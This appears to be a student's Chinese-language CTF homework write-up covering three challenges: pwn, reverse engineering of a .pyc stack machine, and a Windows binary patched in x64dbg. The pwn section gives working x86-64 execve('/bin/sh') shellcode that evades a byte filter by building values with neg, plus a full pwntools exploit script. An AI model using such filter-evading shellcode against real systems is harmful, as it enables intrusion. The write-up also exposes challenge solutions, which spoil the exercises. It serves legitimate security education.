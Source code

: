 # HW0x00 Writeup

## pwn

題目有給 source code ，可以看到主程式裡面有個 `void (*hello)()` 可以將 shellcode 傳入並呼叫，但在傳進去之前會做檢查，其中有限制不能有 `\x00` 、 `\x05` 、 `\x0f` ，分別代表是 null byte 跟 Linux 的 `syscall` 指令。

```c=
for( int i = 0 ; i < 0x100 ; ++i ){
        if( shellcode[i] == '\x00' || shellcode[i] == '\x05' || shellcode[i] == '\x0f' ){
            puts( "Oops" );
            _exit(-1);
        }
    }
```


因此在這個限制下，必須傳入的字串長度必須補滿以免被補上 null byte ，另外對 register 操作製造一個 `syscall` 之後我們再 call 它就不會在 shellcode 裡面看到 `\x05\x0f` 了。

為了讓 `hello()` 可以執行 `/bin/sh` ，先去查了 Linux x64 system call table ，可以看到呼叫 `sys_execve` ， `rax` 要放 `0x3b` ，而 `rdi`、`rsi`、`rdx` 分別代表 `const char* filename` 、 `const char* argv[]` 、 `const char* envp[]`，我們要執行 `/bin/sh` 基本上只需要在 `rdi` 裡放入 `"/bin/sh"` ，其餘放 `0` 即可。

而 `syscall` 的數字，可以先將它做成 `0xfaf1` ，以 `neg` 將他轉換回 `0x050f` 。

照這個想法ㄧ開始寫的 payload 是：

```=
_start:

xor rdx, rdx
xor rsi, rsi
mov r8, 0x68732f2f6e69622f
push r8
push rsp
pop r13
mov rdi, r13
push 0x3b
pop rax
mov r9, 0xfffffffffffffaf1
neg r9
push r9
push rsp
pop r14

call r14
```

但可以看到第五行因為裡面沒有 null byte ，所以不知道字串是否結束，傳進去的時候尾巴有一些奇怪的字元。

![](https://i.imgur.com/TsGcgnw.png)

所以選擇的策略是用造 `syscall` 一樣的方式，將 `"/bin/sh\x00"` 的 hex 做成 2's complement ，利用 `neg` 這個指令將其轉換回去我們想要的。

```=
_start:
xor rdx, rdx
xor rsi, rsi
mov r8, 0xff978cd091969dd1
neg r8
push r8
push rsp
pop rdi
push 0x3b
pop rax
mov r9, 0xfffffffffffffaf1
neg r9
push r9
push rsp
pop r14
call r14
```

這樣就沒有問題了，完整的 script 如下：

```python3=
from pwn import *

arch = context.update(arch='amd64', os='linux')
r = remote('edu-ctf.csie.org', 10150)

r.recvline()

shellcode = """
_start:
xor rdx, rdx
xor rsi, rsi
mov r8, 0xff978cd091969dd1
neg r8
push r8
push rsp
pop rdi
push 0x3b
pop rax
mov r9, 0xfffffffffffffaf1
neg r9
push r9
push rsp
pop r14
call r14
"""

payload = asm(shellcode, arch='amd64')

r.send(payload)

r.interactive()
```

## rev

這題給的是一個 `*.pyc` file ，所以先用網路上的 decompiler 將他還原成比較好讀的形式，只不過 Google 搜尋結果第一筆的 decompiler 會在 `assert` 的部份解析錯誤，所以需要修改一下。

基本上這個 stack machine 有以下這幾個運算：
* 0: add
* 1: cmp
* 2: call itself
* 3: clean up the list
* 6: pop out
* 7: push in
* 8: do the last two elements subsitution, then get rid of the last one.
* 9: do the character accuracy check, terminate the process if it is the wrong character.

而從 opcode 8 跟 9 的計算模式 （同時也把運算的過程印出來檢驗），可以得知字串的比對是從後面往前做的。因此，若要推算正確的 char 也要從後面往前推算。
![](https://i.imgur.com/mvusOQJ.png)


## misc

這題一樣有給 source code ，然後下方註解出題者有給佛心建議說可以從哪些步驟開始，但因為我不太想裝 Visual Studio ，在 Linux 跑 wine 就好了，所以載了 x64dbg 。

然後 x64dbg 有 bug 不能用 wine 跑 (uwu) 。

![](https://i.imgur.com/Aq4lZ8W.png)

查了很多資料之後覺得要 patch x64dbg 有點麻煩，就只好打開我的 Windows 環境。

然後 Windows 基於不知名原因沒有網路我什麼都不能裝 (uwu) 。

![](https://i.imgur.com/4ozeoTB.png)

只好切回 Linux 用 USB 裝了題目跟 debugger 檔案，切回去 Windows 放進去囉，讚喔。

基本上題目應該是要我們在執行過程中，從 debugger 中找到 memory 裡有沒有出現這次 random 出來的值為多少，這樣就能輸入正確的數值使 magic 跟 password 相等。但其實可以發現， magic 跟 password 的判斷式和 key 的比較之間其實是不會互相影響的，因此其實直接找到 `if (password == magic)` 所在的位置，將其從 `jne` patch 成 `je` 之類的就可以了。

只不過不知道為什麼 x64dbg 跑完程式之後就會馬上終止，所以來不及看到 flag 長怎樣，只好把斷點設在 `printf` 的位置，讓他一個字一個字把 flag 印出來，就大功告成了！

喔對因為電腦沒網路、筆電剛好也不在身邊，我沒辦法直接提交 flag ，只好用 genius 的方式把 flag 的畫面拍下來。

![](https://i.imgur.com/NmwAv7z.jpg)

![](https://i.imgur.com/1M2Gp8B.png)


